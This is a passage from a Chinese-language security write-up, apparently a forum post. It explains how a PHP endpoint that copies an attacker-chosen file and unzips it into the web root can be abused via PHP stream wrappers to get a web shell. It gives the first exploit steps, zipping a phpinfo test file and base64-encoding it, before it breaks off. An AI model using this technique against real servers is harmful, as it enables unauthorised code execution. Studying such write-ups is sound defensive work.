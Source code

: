 [![](assets/1701606448-aaede3130d4529f91767a9c8e4bf610a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135451-7b50f668-8ce9-1.png)

其中`$RemoteFile` 可以由 `$_POST['file']`完全控制，然后通过`copy`复制并重命名，接着直接解压至根目录，简单地来讲，只要我们上传一个压缩的 zip 文件到服务器的任意位置，那么就可以 GetShell，找一个上传点并不难，但是我们当前可是在 PHP 环境下耶？PHP 是世界上最好的语言，怎么可能 GetShell 需要那么麻烦是吧？

如果你了解 php 支持的[支持的协议和封装协议](https://www.php.net/manual/zh/wrappers.php#wrappers)，即我们常说的伪协议，那么这个问题迎刃而解。

[![](assets/1701606448-fbaee9c906c5d06c4f36ccced75b7d9c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135504-8286cfde-8ce9-1.png)

利用该漏洞的步骤如下：

1) 通过 `zip`命令将内容`<?php phpinfo();?>`的`1.php`压缩为 `1.php.zip`

```plain
zip 1.php.zip 1.php
```

2) PHP 写一个 base64 加密的 Binary 文件的 `exp.php`

```plain
<?php

// 读取二进制流
$binaryData = file_get_contents('1.php.zip');

// 转换为 base64 编码字符串
$base64String = base64_encode($binaryData);

// 输出结果
echo $base64String;
```
